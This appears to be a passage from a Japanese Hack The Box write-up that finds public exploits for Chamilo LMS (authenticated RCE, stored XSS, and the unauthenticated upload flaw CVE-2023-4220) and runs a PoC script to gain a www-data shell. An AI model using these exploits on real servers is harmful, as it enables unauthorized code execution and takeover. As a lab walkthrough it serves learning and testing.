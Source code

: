 アカウントを持ってる人が使える脆弱性だな
リモートの認証された管理者は、main/inc/lib/fileUpload.lib.php ディレクトリ トラバーサルを介して、任意の PHP コードを含むファイルを特定のディレクトリにアップロードし、PHP コードを実行できます。
```bash
  Exploit: Chamilo LMS 1.11.14 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49867
     Path: /usr/share/exploitdb/exploits/php/webapps/49867.py
    Codes: CVE-2021-31933
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/snowyowl644/HTBScript/49867.py
```

Chamilo LMS 1.11.8には、**Firstname**と**Lastname**フィールドの入力検証が不適切なため、新規ユーザー登録時に**永続的なXSS（クロスサイトスクリプティング）攻撃**を実行できる
サインアップできるディレクトリあるかな
```bash
  Exploit: Chamilo LMS 1.11.8 - 'firstname' Cross-Site Scripting
      URL: https://www.exploit-db.com/exploits/45536
     Path: /usr/share/exploitdb/exploits/php/webapps/45536.txt
    Codes: N/A
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/snowyowl644/HTBScript/45536.txt

```

Chamilo LMS 1.11.8の**カレンダー/個人用アジェンダページ**では、入力検証が不適切なため、新しい会議を追加する際に**会議内容フィールド**を使用して永続的なXSS攻撃を仕掛けることができる。
ログイン後できるって感じだな
```bash
  Exploit: Chamilo LMS 1.11.8 - Cross-Site Scripting
      URL: https://www.exploit-db.com/exploits/45535
     Path: /usr/share/exploitdb/exploits/php/webapps/45535.txt
    Codes: N/A
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/snowyowl644/HTBScript/45535.txt

```

googleで同様に検索したところ
[https://github.com/charlesgargasson/CVE-2023-4220]が見つかった
Chamilo LMS <= 1.11.24 (Beersel 31/08/2023)
- 攻撃者は認証なしで、任意のコードを実行するPHPスクリプトをアップロード可能。
- サーバー上で任意のシェルコマンドを実行可能。
- 最悪の場合、完全なサーバー制御を取得。


# Foothold
CVE-2023-4220を利用して、poc.shに[github](https://github.com/charlesgargasson/CVE-2023-4220)のREADMEに書いてあるシェルスクリプトを実行してみる。
www-dataとしてログインできたことがわかる。
```bash
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ nano poc.sh
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ ./poc.sh
bash: ./poc.sh: Permission denied
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ chmod +x ./poc.sh
┌─[sg-dedivip-1]─[10.10.14.6]─[snowyowl644@htb-umlp2sdxq9]─[~/HTBScript]
└──╼ [★]$ ./poc.sh
The file has successfully been uploaded.uid=33(www-data) gid=33(www-data) groups=33(www-data)

```